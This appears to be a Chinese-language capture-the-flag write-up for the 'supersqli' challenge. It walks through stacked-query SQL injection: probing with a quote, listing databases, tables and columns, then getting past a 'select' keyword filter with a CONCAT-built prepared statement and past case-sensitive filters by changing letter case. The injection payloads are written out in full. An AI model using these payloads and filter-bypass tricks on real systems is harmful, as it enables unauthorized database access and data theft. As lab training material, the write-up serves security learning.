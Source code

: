 # 题目描述
![image](https://user-images.githubusercontent.com/24989246/175016233-5b1b0e25-d205-48a4-b68c-bd7af64b7491.png)

# 解题思路
题目提示了是supersqli,所以尝试下sql注入
尝试下 1',发现报错，肯定存在sql注入点
![image](https://user-images.githubusercontent.com/24989246/175016538-d6a222a5-ec09-4266-8479-32cf1a747913.png)

列出数据库和表名
1';show databases;#    1';show tables#
![image](https://user-images.githubusercontent.com/24989246/175016921-a0229ba2-011d-4f7d-ae45-2100cc42a2eb.png)

发现数字的表名比较奇怪，列出字段试试
 1';show columns from `1919810931114514`;# 
 ![image](https://user-images.githubusercontent.com/24989246/175017051-f7033f4e-bbcd-4807-a91a-c553254da2d2.png)
 
发现flag字样，直接查询试试
![image](https://user-images.githubusercontent.com/24989246/175017186-4badfa4e-3485-43d5-9bde-48944ccc4fb8.png)

发现select被过滤了，尝试下预编译
```sql
1';
set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017366-0ea839ad-b036-4fdd-b3d3-83acc2750a54.png)

发现set函数和prepare函数被过滤了，但是，strstr函数不区分大小写，所以，修改大小写尝试下
```sql
1';
Set @sql = CONCAT('sele','ct flag from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;#
```
![image](https://user-images.githubusercontent.com/24989246/175017792-4762b108-ac39-4301-9c7d-44cd64518a1f.png)

成功拿到flag

